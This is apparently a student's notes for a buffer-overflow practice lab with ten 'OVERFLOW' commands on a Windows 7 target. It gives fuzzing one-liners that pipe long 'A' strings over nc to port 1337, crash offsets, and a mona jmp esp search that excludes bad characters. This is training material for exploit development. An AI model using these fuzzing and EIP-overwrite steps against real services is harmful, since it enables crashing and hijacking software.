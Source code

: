 # RDP connection with Remmina 

share the folder "OSCP"

in linux file manager :

```
smb://10.10.212.22/users/admin/Desktop/vulnerable-apps/oscp

```

then copy it to linux machine then to win7 machine to start debugging :

when run it :

```
HELP
OVERFLOW1 [value]
OVERFLOW2 [value]
OVERFLOW3 [value]
OVERFLOW4 [value]
OVERFLOW5 [value]
OVERFLOW6 [value]
OVERFLOW7 [value]
OVERFLOW8 [value]
OVERFLOW9 [value]
OVERFLOW10 [value]
```


# OVERFLOW 1 :


FUZZING :
----------
keep increasing value until we got crashed when :

```python
python -c "print('OVERFLOW1 '+'A'*2000)" |nc 192.168.1.4 1337
```


check overflow1.py 


# OVERFLOW 2 :

FUZZING
---------

```py
$ python -c "print('OVERFLOW2 '+'A'*700)" |  nc 192.168.1.4 1337 
```


check overflow2.py



# OVERFLOW 3 :


FUZZING
--------

```py
python -c "print('OVERFLOW3 '+'A'*1300)" |  nc 192.168.1.4 1337 
```

note that  :


the /x11 is a badchar and it is almost in all addresses of ``jmp esp`` so we must pick one doesn't contain any badchar as it will be added to payload sent 

# we can make a POC by setting a breakpoint at the instruction then send ``"A"*offset + address`` and see if EIP has been overwritten successfully . 



check overflow3.py


# OVERFLOW 4 :


```py
python -c "print('OVERFLOW4 '+'A'*2100)" |  nc 192.168.1.5 1337 
```

check overflow4.py

# OVERFLOW 5 :

using the fuzzer it crashes at 600 bytes


!mona jmp -r esp -cpb "\x00\x16\x2f\xf4\xfd"


# OVERFLOW 6 :

crashes at 1100



# OVERFLOW 7 :

Fuzzing crashed at  1400 bytes



# OVERFLOW 8 :


Fuzzing crashed at  1800 bytes




# OVERFLOW 9 :


Fuzzing crashed at  1600 bytes





# OVERFLOW 10 :




Fuzzing crashed at  600 bytes

